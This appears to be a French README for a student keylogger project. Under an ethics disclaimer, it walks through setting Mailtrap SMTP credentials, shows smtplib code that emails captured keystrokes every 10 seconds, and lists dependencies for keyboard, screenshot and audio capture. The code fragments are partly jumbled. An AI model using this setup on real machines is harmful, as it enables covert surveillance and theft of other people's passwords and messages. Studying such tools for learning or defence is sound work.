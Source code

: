 **DISCLAIMER**

**Ce projet a ete realise a des fins academiques. L'utilisation de logiciels tels qu'un keylogger doit toujours respecter les lois et l ethique.**

**Ne pas utiliser ce script a des fins d'enregistrement de frappes sur l'ordinateur d'autrui (ou sur le votre en ciblant un autre utilisateur) sans le consentement explicite de ce dernier.**

**Ne testez jamais un keylogger sur une machine ou vous n avez pas la permission explicite de le faire.**

**Veuillez utilisez ce script dans un environnement securise (par exemple, une machine virtuelle ou un ordinateur de test), controle et legalement acceptable.**

**Utilisez un compte SMTP dedie et ne partagez jamais vos informations personnelles.**




**Ce script permet d'enregistrer les frappes de clavier. Ces informations recueillies sont envoyees a une boite mail toutes les 10 secondes.**



**Etape 1 : Definir les identifiants SMTP**

**Le protocole SMTP (Simple Mail Transfer Protocol) est utilise pour envoyer des e-mails.**
**Un moyen mnemotechnique de retenir sa definition est : SMTP <=> Send mail to people**


**La premiere etape va donc etre de creer un compte mail dedie a la reception des informations enregistrees avec le keylogger.**

**Nous avons fait le choix du systeme de messagerie "Mail trap". Apres avoir cree un compte avec des donnees jetables, nous devons configurer les identifiants SMTP dans le script.**

**Ouvrez le fichier qui se nomme "Keylogger.py" dans un editeur de texte comme VSCode ou Notepad++.**

**Cherchez les lignes o "SMTP_USERNAME" et "SMTP_PASSWORD" sont mentionnes.**

**Remplacez-les par vos propres informations :**

**Dans cette section, nous allons definir l'adresse mail ainsi que le mot de passe mail :**

**finally:**
    **EMAIL_ADDRESS = "xxxxxx" #Remplacer par le "username" de Mailtrap**
    **EMAIL_PASSWORD = "xxxxxx" #Remplacer par le "password" de Mailtrap**

![information sur le mail](images/infos_mail.png)



**Dans cette section, nous allons entrer le numero du port SMTP, nous permettant d'envoyer les informations enregistres vers la boite de reception.**

m += message
	**with smtplib.SMTP("sandbox.smtp.mailtrap.io", 25) as server: # Mettre le numero de port defini dans les instructions Mailtrap**
        **server.login(email, password)**
        **server.sendmail(sender, receiver, message)**

Ainsi, le port numero 25 est defini. 

![information SMTP](images\smtp_screenshot.png)



**Etape 2 : Installer les dependances necessaires**

**Depuis le terminal, on va lancer la commande pip install -r requirements.txt**

**Cette commande permet d'installer toutes les bibliotheques listees dans le fichier requirements.txt**

**Ce fichier contient les lignes suivantes :**

**pynput==1.7.3 : controler et surveiller le clavier et la souris**
**pyscreenshot==3.1 : prendre des captures d'ecran**
**sounddevice==0.4.3 : gerer l'enregistrement de sons**
**Pillow==9.3.0 : bibliotheque de traitement d'images**



**Etape 3 : Executer le keylogger**

**Toujours depuis le terminal, on lance le script depuis le fichier keylogger.py***

**On lance la commande python keylogger.py**

**Le script commence alors a enregistrer les frappes de claviers**

**Les donnees sont envoyees toutes les 10 secondes dans la boite de reception.**




**En cas d'erreur :**

**Il pourrait y avoir une probleme avec le paquet pyscreenshot lors de son installation**

**L'erreur pourrait par exemple liee a une incompatibilite entre la version de pyscreenshot demandee (0.5.1) et votre environnement Python**

**Pour resoudre ce probleme**

**Modifier la ligne pyscreenshot==0.5.1**

**par**

**pyscreenshot==[derniere version en vigueur]**

**A la date du 15/11/2024, la derniere version utilisee pour pyscreenshot est : 3.1 ***

**Si vous rencontrez encore des erreurs, ajustez les versions jusqu'a ce que toutes soient compatibles avec votre version de Python**

**Vous pourriez par exemple avoir des problemes d'incompatibilite entre votre version de Python et la version de Pillow***



**Correspondances pillow et python : site internet : https://pillow.readthedocs.io/en/stable/installation/python-support.html**


![information Ssur les compatibilites entre pillow et python](images\correspondances_versions_pillow_python.png)


![information Ssur les compatibilites entre pillow et python](images\correspondances_versions_pillow_python1.png)


**Pour arreter le keylogger :**

**Il fonctionne en arriere-plan comme un processus. Afin de l'arreter, entrer dans le terminal : Ctrl + C**

**Si cela ne fonctionne pas, entrer dans le terminal :**

**tasklist | findstr python**

**Cela permettra d'afficher tous les processus Python qui sont actifs. Il suffit ensuite d'identifier le PID associe au script.**

**Pour l'arreter, entrer dans le terminal :**

**taskkill /PID [PID du script] /F**

**Enfin, si le keylogger enregistre les frappes de clavier dans un fichier temporaire, supprimer ce fichier.**
